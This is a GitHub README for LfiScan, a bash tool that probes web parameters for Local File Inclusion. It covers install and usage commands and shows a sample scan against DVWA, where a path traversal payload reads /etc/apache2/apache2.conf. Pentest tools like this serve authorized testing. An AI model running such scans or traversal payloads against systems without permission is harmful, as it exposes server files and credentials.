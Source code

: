 ## Screenshot:
![2022-05-12-20:38:15.png](https://raw.githubusercontent.com/halitAKAYDIN/LfiScan/main/2022-05-12-20%3A38%3A15.png)


## Description
```
A simple Script tests for LFI (Local File Inclusion) via Curl 
```

## Requirements:
```
curl
```

## Installation:
```bash
1. git clone https://github.com/halitAKAYDIN/LfiScan.git
2. cd LfiScan
3. chmod +x lfiscan.sh
```

## Usage:
```bash
bash ./lfiscan.sh -h

bash ./lfiscan.sh -u "http://example.com/index.php?page=" 

bash ./lfiscan.sh -u "http://example.com/index.php?page=" -c "PHPSESSID=;" -w wordlist.txt

bash ./lfiscan.sh -u "http://example.com/index.php?page=" -c "PHPSESSID=;" -w wordlist.txt -t 5
```

## Testing:
```bash
bash ./lfiscan.sh -u "http://spacesec/dvwa/vulnerabilities/fi/?page=" -c "PHPSESSID=0lkh0q867sv9sv8n7156a06i9e; security=low" -w linux.txt -t 3

███████ ██████   █████   ██████ ███████ ███████ ███████  ██████ 
██      ██   ██ ██   ██ ██      ██      ██      ██      ██      
███████ ██████  ███████ ██      █████   ███████ █████   ██      
     ██ ██      ██   ██ ██      ██           ██ ██      ██      
███████ ██      ██   ██  ██████ ███████ ███████ ███████  ██████
linktr.ee/hltakydn                            coded by hLtAkydn
                                                  Version: v0.6

# Attacking targets without mutual consent is illegal! ########

===================Local File Inclusion Scanner=================

[*] [HST] spacesec code: 200
[*] [RPT] Report Path: /tmp/lfiscan/spacesec

[/] [SCN] Scan in Progress (45/2310)
[!] [LFI] http://spacesec/dvwa/vulnerabilities/fi/?page=/../etc/apache2/apache2.conf

[?] Continue Scanning? [Y/n] 
```

## Disclaimer:
```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
